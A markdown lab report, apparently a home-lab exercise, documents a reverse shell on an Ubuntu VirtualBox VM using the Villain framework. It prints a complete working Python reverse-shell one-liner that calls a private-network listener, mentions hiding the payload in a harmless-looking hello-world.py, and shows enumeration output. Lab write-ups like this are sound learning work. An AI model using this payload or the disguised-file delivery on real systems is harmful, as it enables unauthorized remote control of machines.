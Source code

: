 # Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `linux/reverse_tcp/python3 lhost=192.168.40.129`
- **LHOST:** 192.168.40.129
- **LPORT:** 4443
- **Target OS:** Linux (kayley-VirtualBox)
- **Target User:** kayley
- **Active Shell Session:** 884c08-112df5-13eb77

## 🔁 Payload Delivery Method
Reverse shell executed directly on the target VM using:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.129",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
- Additionally, the payload was embedded in a seemingly harmless file (hello-world.py) and sent to the target via scp as well as over the internet.

- Villain framework recognized the session as 884c08-112df5-13eb77.

- Session established at 2025-08-14 17:33:14.

## 🖥️ Captured Info

- Hostname: Kayley-VirtualBox
- IP Address: 192.168.50.14
- Logged-in User: kayley
- OS Type: Linux

## 🔎 Enumeration and Proof of Access

- uname -a  //Discovering system information
    - Linux Kayley-VirtualBox 6.11.0-24-generic #24-Ubuntu SMP PREEMPT_DYNAMIC Fri Mar 14 14:35:34 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

- cat /etc/os-release //os details

```
    PRETTY_NAME="Ubuntu 24.10"
    NAME="Ubuntu"
    VERSION_ID="24.10"
    VERSION="24.10 (Oracular Oriole)"
    VERSION_CODENAME=oracular
    ID=ubuntu
    ID_LIKE=debian
    HOME_URL="https://www.ubuntu.com/"
    SUPPORT_URL="https://help.ubuntu.com/"
    BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
    PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
    UBUNTU_CODENAME=oracular
    LOGO=ubuntu-logo
```
- whoami
    - kayley

## Screenshots
![Screenshot-1](<screenshots/ss-0.png>)

![Screenshot-2](<screenshots/ss-1.png>)

![Screenshot-3](<screenshots/ss-2.png>)

Displaying message in target VM
![Screenshot-4](<screenshots/ss-4.png>)

